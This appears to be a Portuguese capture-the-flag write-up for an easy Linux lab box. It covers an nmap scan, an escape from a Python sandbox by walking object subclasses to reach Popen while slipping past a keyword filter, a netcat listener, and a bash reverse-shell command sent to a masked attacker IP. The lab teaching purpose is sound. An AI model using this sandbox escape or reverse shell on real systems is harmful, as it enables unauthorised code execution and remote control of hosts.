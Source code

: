 #Difficult : Easy #OS : Linux
***
## Port Scanning
```sh
nmap 10.10.11.62 -Pn -sV -sC -A -oN scann_tcp
```
![[Pasted image 20250513200209.png]]
Temos uma aplicação rodando em um servidor python(`gunicorn`) na porta `500`, podemos acessa-la e ver a aplicação que está rodando.
****
## Sandbox python
![[Pasted image 20250513200815.png]]

Pelo que parece, a aplicação é uma sandbox que aceita comandos `python`, mas não permite alguns comandos, como `os` ou `import`.

Após uma breve pesquisa, achei um [post da Boiatech](https://hacktricks.boitatech.com.br/misc/basic-python/bypass-python-sandboxes) sobre técnicas de `bypass` de sandboxes, uma delas é utilizando `subclasses`.
![[Pasted image 20250513202503.png]]

Primeiro enumerei quantas subclasses há nessa classe.
![[Pasted image 20250513203115.png]]

Como sei quantas subclasses existem, posso listar todas para achar algum comando útil, como o `popen`, que inicia um novo processo e nos permite interagir ele, controlando o fluxo de entrada e saída.
```python
for i in range(0,722):
    string = str("".__class__.__mro__[1].__subclasses__()[i])
    esc = "Po"+"pen"
    if esc in string:
        print(str(i) + ' - '+ string)
    else:
        print('')
```
![[Pasted image 20250513205028.png]]

Encontrei o `popen` na posição `317`, agora posso utiliza-lo para obter uma `revshell`. Mas primeiro devemos escutar uma porta para receber a shell.
```sh
nc -nvlp 4545
```

Agora podemos executar a `revshell`.
```python
shell = ''.__class__.__mro__[1].__subclasses__()[317]
shell("bash -c 'bash -i >& /dev/tcp/10.10.xx.xx/4545 0>&1'", shell=True)
```
***
